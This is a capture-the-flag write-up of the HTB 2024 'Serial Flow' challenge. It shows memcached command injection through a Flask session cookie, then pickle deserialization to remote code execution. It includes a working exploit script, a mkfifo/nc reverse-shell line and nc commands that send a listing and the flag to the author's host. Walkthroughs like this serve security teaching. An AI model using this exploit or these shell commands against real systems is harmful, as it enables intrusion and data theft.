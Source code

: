```yaml
---
title: "[web] Serial Flow"
date: 2024-03-24T16:00:00+08:00
summary: HTB Cyber apocalypse 2024 - pickle and cookie
draft: false
tags: [ "ctf", "web" ]
---
```


This challenge exposes a website written with flask, and display a pretty cool looking terminal like interface, but not much functionalities. Looking at the code, there's only 2 endpoints exposed, a home page on route '/' and a '/set' route, that allows a user to change the ui color.

To keep the ui color, a session is used, with a cookie containing a session id, and a backend session, in this case, the session is using a memcached backend.

With as little available to tinker with, issue might be with the session management in memcached, also session in flask_session is using pickle to unserialize a session, (Name of the challenge is also serial flow).

A good plan would be to write in a memcached key a RCE with pickle, and trigger flask_session to read that key and deserialize it, which would then execute an RCE.

As a first step, I tried to write in a different key in memcached, directly with pylibmc, after several tries and some research, we can leverage the text protocol used by memcached to communicate with the server over the network.

Setting a key in memcached looks like the following:

```
set key 0 300 5\r\n
hello\r\n
```
* 0 : is a flag that will be return on read
* 300 : is the ttl of the key
* 5 : length of the value stored, in this case 5 for hello
* separator between command is \r\n 

When using pylibmc, it's hiding this but is using the same system, some tcpdump shows the same flow on the wire.

Let's write some tests to try to exploit that, I first tried to use a SET to overwrite another key:
```python
Python 3.11.4 (main, Mar 13 2024, 13:05:57) [Clang 15.0.0 (clang-1500.1.0.2.5)] on darwin
Type "help", "copyright", "credits" or "license" for more information.
>>> import pylibmc
>>> mc = pylibmc.Client(["127.0.0.1:11211"])
>>> mc.set("key","aaa")
True
>>> mc.get("key")
'aaa'
>>> mc.set("key","aaa\r\nset key2 0 300 5\r\nhello\r\n")
True
>>> mc.get("key2")
>>> mc.get("key")
'aaa\r\nset key2 0 300 5\r\nhello\r\n'
>>>
```

As seen, it does not work, this is because pylibmc set the length of the content, so the "exploit" end up being the value of the first key, however, a get command does not need anything after the key, let's try with that:
```python
Python 3.11.4 (main, Mar 13 2024, 13:05:57) [Clang 15.0.0 (clang-1500.1.0.2.5)] on darwin
Type "help", "copyright", "credits" or "license" for more information.
>>> import pylibmc
>>> mc = pylibmc.Client(["127.0.0.1:11211"])
>>> mc.delete('key')
False
>>> mc.delete('key2')
False
>>> mc.get("key\r\nset key2 0 300 5\r\nhello\r\n")
>>> mc.get("key2")
>>> mc.get("key2")
>>> mc.get("key2")
>>> mc.get("key2")
b'hello'
```
As displayed there, behaviour is a bit erratic, but the "key2" is set through a get on "key".

Looking at flask session, we see that the cookie session contains the session id, and upon loading a page, this session id will be used (with a prefix) to read session content from memory, using a get on pylibmc, if we were able to pass "key\r\nset key2 0 300 5\r\nhello\r\n" as a cookie value, we would be able to set a key by setting the session id in the cookie.

However, this is not as simple, I spent a lot of time on this step, I could not manage to send special characters to the backend through the cookie, after a lot of back end forth, I realize this should probably be encoded, so why not let python encode those value for me, with the "http.cookies" library.

```python
Python 3.11.4 (main, Mar 13 2024, 13:05:57) [Clang 15.0.0 (clang-1500.1.0.2.5)] on darwin
Type "help", "copyright", "credits" or "license" for more information.
>>> from http import cookies
>>> c = cookies.SimpleCookie()
>>> c["session"] = "key\r\nset key2 0 300 5\r\nhello\r\nget key2"
>>> print(c.output(header="Cookie:"))
Cookie: session="key\015\012set key2 0 300 5\015\012hello\015\012get key2"
>>>
```

We are almost there, as the key will be loaded with pickle, we can directly use pickle to deserialize an object, and use the __reduce__ function to execute code.

This is the second step where I lost a lot of time, I tried to get a reverse shell for quite some time, without success. The image used by the application is alpine with busybox, after quite some trial and error and using the docker version of the challenge available for download, I was able to trigger a reverse shell, when running a command in the container through docker exec, with
```
mkfifo /tmp/f ;  cat /tmp/f | /bin/sh -i 2>&1 | nc MY_PUBLIC_IP 4444 > /tmp/f
```
However, I was not able to run it through the cookie, simpler command were working sometime, but not everytime, I ended up building a small script to directly execute one command, and use that after:

```python
import pickle
import os
from http import cookies
import sys

if len(sys.argv) < 2:
    print("Command expected")
    exit()

cmd = sys.argv[1]

class RCE:
    def __reduce__(self):
        return os.system, (cmd,)

payload = pickle.dumps(RCE(), 0)
size = len(payload)
cookie = 'k\r\nset k2 0 300 ' + str(size) + '\r\n'
cookie += payload.decode() + '\r\n'
cookie += 'get k2'

c = cookies.SimpleCookie()
c["session"] = cookie
print(c.output(header="Cookie:"))
```

and after running multiple times:

```
http 83.136.250.41:48022  "$(python exploit.py 'ls / | nc MY_PUBLIC_IP 4444')"
```

I got:

```
pierre@pierre-pc:~$ nc -nlvp 4444
Listening on 0.0.0.0 4444
Connection received on 83.136.250.41 36527
app
bin
dev
entrypoint.sh
etc
flag88eb3765b9.txt
home
lib
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

then running :

```
http 83.136.250.41:48022 "$(python exploit.py 'cat /flage2c0f61ee4.txt | nc MY_PUBLIC_IP 4444')"
```

I got:

```
pierre@pierre-pc:~$ nc -nlvp 4444
Listening on 0.0.0.0 4444
Connection received on 83.136.250.41 40107
HTB{y0u_th0ught_th15_wou1d_b3_s1mpl3?}pierre@pierre-pc:~$
```

